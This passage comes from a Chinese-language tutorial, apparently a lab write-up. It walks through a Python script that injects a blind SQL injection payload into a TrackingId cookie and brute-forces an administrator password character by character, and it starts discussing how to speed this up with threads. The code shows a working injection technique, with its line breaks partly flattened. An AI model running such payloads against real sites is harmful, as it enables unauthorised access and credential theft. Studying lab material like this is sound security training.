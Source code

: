 **服务器的响应**

***Print(r.headers)* 和 *print(cj_dict)* 仅用于调试目的。**

**![](img/f89b729f6cc6385e055e8d0ca097aad0.png)**

**终端的输出**

## **[SQL 注入]**

**下面编写的函数将恶意的 SQL 查询注入到新创建的 TrackingId cookie 中，并暴力破解管理员密码的每个字符。**

```
**def sqli_pass_brute(pass_character):
    for n in characters_list:
        sqli = f"' UNION SELECT 'a' FROM users WHERE   username='administrator' AND ASCII(SUBSTRING(password, {pass_character}, 1))={n}--" # Setting new malicious TrackingId cookie
        cj.set(
               cookie_names[0], sqli,
               domain=url.split('/')[-1], path='/'
               ) r = s.get(url, cookies=cj, proxies=proxies, verify=False) if "Welcome back!" in r.text:
            letter = chr(int(n))
            break return letter**
```

**上述函数的第一部分通过检查每个密码字符( *pass_character* )与来自 *character_list* 的 ASCII 值进行强力运算。**

*****cj.set()*** 在 ***s.get()*** 向 web app 发出请求的同时，将恶意的 *sqli* 变量的值注入 TrackingId cookie 字段。**

**![](img/1c256aa8ddf38ce7d739efc225400b2f.png)**

**恶意的请求**

**最后， ***if*** 语句检查“欢迎回来！”字符串出现在服务器的响应中( *r.text* )，如果出现，则返回密码字符并移到下一个。**

## **[加速]**

**如前所述，Burp Suite 无法在有限的时间内处理密码暴力破解任务。上面的脚本已经在 200-400 秒内完成了这项工作，这取决于每次 web 应用程序超时时重置的密码。为了加快进程，我们可以使用 Python 的***concurrent . futures***模块(模拟线程)。**
